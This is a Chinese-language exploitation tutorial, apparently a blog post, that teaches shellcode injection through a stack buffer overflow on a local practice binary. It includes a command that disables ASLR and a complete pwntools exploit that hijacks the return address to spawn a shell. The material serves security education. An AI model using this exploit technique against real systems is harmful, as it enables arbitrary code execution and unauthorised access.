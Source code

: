 ```yaml
---
title: 'shellcode'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '运行你自己的指令'
authors: ['default']
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

:::warning
我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。
:::

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

LINK

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

:::info
类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。
:::

:::warning
再次强调，如果你不知道指令的作用，则永远不要运行该指令。
:::

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出
`ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切
的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/de-bruijn-sequences/) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 Exploit

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

:::info
我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。
:::

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()` ，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

:::warning
如果你遇到 `EOFError` ，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。
:::

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 Exploit

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell


